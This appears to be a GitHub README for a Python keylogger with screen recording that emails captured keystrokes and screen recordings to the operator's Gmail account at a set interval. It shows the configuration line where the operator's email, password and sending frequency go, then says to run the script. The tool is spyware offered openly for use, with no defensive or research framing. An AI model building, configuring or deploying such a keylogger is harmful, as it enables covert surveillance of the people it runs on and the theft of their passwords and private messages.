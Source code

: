 # Keylogger with screen recorder
A keylogger that sends logs on email and records screen.

# Instructions

- Change 182 line in Python file to set your email and password **(ONLY GMAIL MAILBOX)**
```python
182. e = SendEmail('YOUR_EMAIL', 'YOUR_PASSWORD', TIME)
```
**Remember to set the frequency of sending emails on your mailbox by changing the TIME value**

The TIME value is expressed in seconds

> Example

```python
182. e = SendEmail('mailbox@gmail.com', 'password1', 10)
```

- Run script
